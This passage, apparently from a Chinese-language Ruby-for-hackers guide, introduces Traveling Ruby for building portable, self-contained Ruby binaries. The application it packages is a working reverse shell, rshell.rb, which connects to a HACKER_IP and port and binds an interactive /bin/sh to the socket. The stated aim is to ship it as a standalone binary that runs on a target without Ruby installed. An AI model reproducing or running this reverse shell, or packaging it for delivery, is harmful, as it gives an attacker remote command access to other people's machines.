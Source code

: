 ![](img/packaging__ocra1.png)

### Traveling-ruby

来自官方网站^(1) "*Traveling Ruby 是一个项目，提供自包含的“便携”Ruby 二进制文件：可以在任何 Linux 发行版和任何 OS X 机器上运行的 Ruby 二进制文件。它还支持 Windows（有一些注意事项）。这使得 Ruby 应用程序开发人员可以将这些二进制文件与他们的 Ruby 应用程序捆绑在一起，这样他们可以向最终用户分发一个单一的软件包，而无需让最终用户首先安装 Ruby 或 gems。*"

注意：以下脚本摘自官方文档。

#### 准备工作

```
mkdir rshell
cd rshell 
```

+   创建你的应用程序 -在我们的情况下，反向 shell- 在“rshell”文件夹中

**rshell.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV.size < 2
  puts "ruby #{__FILE__} [HACKER_IP] [HACKER_PORT]\n\n"
  exit 0 
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s) 
```
